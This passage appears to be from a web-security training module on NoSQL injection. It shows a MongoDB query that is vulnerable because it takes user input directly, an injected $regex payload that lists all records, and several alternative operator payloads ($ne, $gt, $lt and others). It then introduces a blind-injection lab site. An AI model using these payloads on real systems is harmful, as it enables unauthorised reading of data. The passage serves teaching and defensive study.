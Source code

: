 ```javascript
db.types.find({
    name: $_GET['q']
});

```

We want to list out information for `all` types in the collection, and assuming our assumption of how the back-end handles our input is correct, we can use a RegEx query that will match everything like this:

```javascript
db.types.find({
    name: {$regex: /.*/}
});

```

Upon sending the new request, we should see that all mango types and their corresponding facts are listed.

![](8yxqGGJVLpcM.png)

* * *

## Alternative Queries

- `name: {$ne: 'doesntExist'}`: Assuming `doesntExist` doesn't match any documents' names, this will match all documents.
- `name: {$gt: ''}`: This matches all documents whose name is 'bigger' than an empty string.
- `name: {$gte: ''}`: This matches all documents whose name is 'bigger or equal to' an empty string.
- `name: {$lt: '~'}`: This compares the first character of `name` to a Tilde character and matches if it is 'less'. This will not always work, but it works in this case because Tilde is the [largest printable ASCII value](https://www.asciitable.com/), and we know that all names in the collection are composed of ASCII characters.
- `name: {$lte: '~'}`: Same logic as above, except it additionally matches documents whose names start with `~`.


# Blind Data Extraction

* * *

## MangoPost

In the following two sections, we will look at `MangoPost`. This website is vulnerable to `blind NoSQL injection`, which we will leverage to extract data.

The webpage is a simple package tracking application where you can enter a tracking number and get information about the shipment.

![](0FqMT6ycmQYI.png)

